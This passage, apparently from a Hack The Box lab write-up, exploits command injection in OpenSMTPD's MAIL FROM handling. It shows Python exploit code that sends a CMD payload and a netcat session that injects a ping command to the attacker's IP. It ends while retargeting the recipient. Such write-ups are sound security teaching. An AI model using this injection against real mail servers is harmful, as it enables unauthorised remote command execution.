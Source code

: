 ```python
```
When the connection is succesful it will inject the payload which is stored in the **CMD** variable
into **MAIL FROM**:
```python

print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error sending payload, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)
	
print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```
Note that the script sends it to the **root** user however, we found an email address
of the user **j.nakazawa**.

Let's first connect to the mail server and see if this user exists:
```
┌──(kali㉿kali)-[~/Documents/Other/HacktheBox/tentacel]
└─$ sudo proxychains nc 10.241.251.113 25                                                                                                                                                                     130 ⨯
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
220 smtp.realcorp.htb ESMTP OpenSMTPD
HELO x
250 smtp.realcorp.htb Hello x [10.241.251.1], pleased to meet you
MAIL FROM:<;ping -c 1 10.10.15.147;>                                        
250 2.0.0 Ok
RCPT TO:<j.nakazawa@realcorp.htb>
250 2.1.5 Destination address valid: Recipient ok
``` 
The user seems to exist. I also checked for the root user but it fails to send an email.
So let's continue with **nakazawa**.

To make the script work we need to change **root**:
```python

print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```
Into **j.nakazawa@realcorp.htb**: